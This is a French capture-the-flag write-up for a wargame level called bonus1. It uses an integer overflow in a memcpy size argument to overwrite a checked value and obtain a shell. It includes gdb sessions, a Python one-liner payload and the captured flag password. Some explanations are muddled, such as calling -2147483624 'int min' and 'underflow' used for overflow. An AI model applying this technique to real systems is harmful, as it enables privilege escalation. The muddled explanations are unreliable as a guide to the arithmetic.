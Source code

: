 #  Shell Code Exploitation

En décompilant l'exécutable, on remarque que le programme doit passer 2 check pour executer un shell avec les droits de bonus2.

La première condition, est que notre premier argument doit-être inférieur à 10. 

```C
arg1 = atoi(argv[1]);
if (arg1 < 10) 
```
Notre deuxième condition est que notre premier argument soit égal à `0x574f4c46` soit `1464814662`en base 10.

```C
if (argv[1] == 0x574f4c46)
	execl("/bin/sh");
```

Entre ces deux conditions, il y a un `memcpy`, que nous allons utiliser afin de faire notre exploit. 

```C
memcpy(buffer, argv[2], (len(argv[1]) * 4));
```

En effet; le troisième argument de `memcpy` est un `size_t`

Il va donc falloir qu'on change la valeur de notre premier argument afin qu'elle coincide avec `0x574f4c46`.

Il s'avère qu'on a la possibilité de passer des nombres négatifs comme premier argument. En prenant un nombre très petit, on peut faire un `underflow`. Voyons tout ça dans `gdb`

```
> gdb ./bonus1
(gdb) disass main 
[...]
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
```
On voit un call a `memcpy`, on va donc break dessus et lancer le programme avec différentes valeurs.
```
(gdb) break *0x08048473
[...]
(gdb) r -200 A
[...]
(gdb) info registers
[...]
eax            0xbffff6c4	-1073744188
ecx            0xfffffce0	-800
edx            0xbffff8e7	-1073743641
```
On voit que `ecx` vaut bien `-800`. La multiplication par 4 dans le `memcpy` fonctionne donc bien.

Testons maintenant avec un nombre très petit.
```
(gdb) break *0x08048473
[...]
(gdb) r -2000000000 A
[...]
(gdb) info registers
[...]
eax            0xbffff6c4	-1073744188
ecx            0x2329b000	589934592
edx            0xbffff8e7	-1073743641
```

On voit que `ecx` vaut bien `589934592`.  On a donc réussi a `underflow`.
Néanmoins, on ne pourra pas réussir a obtenir la valeur de comparaison `1464814662` avec un `underflow`. On va donc prendre la valeur `d'int min`.

On sait que dans `memcpy`, la valeur du troisième argument est un `size_t`. Notre `int min` fait 11 caractères `-2147483624`. On va donc avoir :
```C
memcpy(buffer, argv[2], (11 * 4));
```

Voyons un peu ce qu'il se passe quand notre programme segfault.
On a notre premier argument, on va donc passer une grande chaine de caractère en deuxième argument et voir ce qu'il se passe.

```
(gdb) break *0x08048473
[...]
(gdb) r -2147483624 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
[...]
(gdb) c
[...]
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x39624138 in ?? ()
```

Notre programme `segfault`. Si on [calcule](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) l'offset, on trouve 56.

On peut donc faire
```
[offset] - [len(premier argument)] - [adresse]
```

On a donc `56 - 11 - 4 = 40`

 Pour remplir notre buffer, on peut donc écrire 40 caractères puis l'adresse de comparaison, à savoir `0x574f4c46`.
 Cette adresse en little indian est donc `\x46\x4c\x4f\x57`.
 
On peut donc faire 
```
./bonus1 -2147483624 `python -c 'print "A"*40 + "\x46\x4c\x4f\x57"'`
[...]
$whoami
[...]
bonus2
$ cat /home/user/bonus2/.pass
[...]
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```